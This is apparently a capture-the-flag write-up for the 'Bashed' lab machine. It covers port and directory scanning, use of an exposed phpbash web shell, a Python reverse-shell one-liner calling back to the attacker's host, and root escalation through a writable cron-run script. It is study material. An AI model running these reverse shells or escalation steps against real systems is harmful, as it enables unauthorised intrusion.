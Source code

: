 # Bashed


# Recon
```
Nmap scan report for 10.10.10.68
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

```


Checking the website there's a mention to something called 'phpbash'

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/wordlists/small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2021/09/29 20:14:10 Starting gobuster
=====================================================
/css (Status: 301)
/dev (Status: 301)
/images (Status: 301)
/js (Status: 301)
/php (Status: 301)
/uploads (Status: 301)
=====================================================
2021/09/29 20:14:35 Finished
=====================================================
```

Checking out /dev/ we see:

```
/phpbash.mim.php
/phpbash.php
```

phpbash.php looks like a shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",64444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We get a shell
```
nc -lvnp 64444
Listening on 0.0.0.0 64444
Connection received on 10.10.10.68 49316
$ whoami
www-data
$ find /  -type f -name "user.txt" 2>/dev/null
/home/arrexel/user.txt
```

# Privilege escalation

```
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```


Aparently scriptmanager can be run sudo w/o passwd, this can be exploited to get a shell with root privileges

```
$ cd /
$ ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Sep 29 16:07 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 113 root          root              0 Sep 29 16:07 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Sep 29 16:08 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Sep 29 16:07 sys
drwxrwxrwt  10 root          root           4096 Sep 29 16:43 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Everything inside the root directory is owned by root, except the scripts folder which is owned by scriptmanager

```
$ sudo -i -u scriptmanager
whoami
scriptmanager
```

Checking the contents of /scripts, we see a python script that appears to be run regularly with a cron job
scriptmanager have rights to edit the python script, but, it is impossible to do it via shell, so it is better to upload your own version of it
```
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
cd /
cd scripts
ls
test.py
test.txt


ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Sep 29 16:49 test.txt
```

Uploading it
```
-m http.server 62000
Serving HTTP on 0.0.0.0 port 62000 (http://0.0.0.0:62000/) ...
10.10.10.68 - - [29/Sep/2021 20:57:12] "GET /test.py HTTP/1.1" 200 -

```
and get the shell

```
nc -lnvp 55555
Listening on 0.0.0.0 55555
Connection received on 10.10.10.68 59132
# whoami
root
# find / -type f -name "root.txt" 2>/dev/null
/root/root.txt
```
